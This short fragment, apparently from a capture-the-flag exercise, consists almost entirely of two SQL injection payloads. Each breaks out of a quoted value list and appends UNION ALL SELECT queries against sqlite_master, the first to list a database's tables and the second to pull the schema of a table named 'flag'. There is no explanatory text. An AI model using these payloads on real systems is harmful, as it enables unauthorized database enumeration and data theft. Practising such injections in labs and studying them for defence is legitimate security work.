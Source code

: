 *', 'None', 'http://logger-middleware-6787d003.dailycookie.cloud/', "NONE", '2023-06-14 07:06:02.660760') union all SELECT name,"1","2","3","4","5" FROM sqlite_master WHERE type='table' union all select "1","2","3","5","6","9";--

```
*', 'None', 'http://logger-middleware-6787d003.dailycookie.cloud/', "NONE", '2023-06-14 07:06:02.660760') union all SELECT sql,"1","1","3","4","5" FROM sqlite_master WHERE type='table' AND name='flag' union all select "1","2","3","5","6","9";--
```
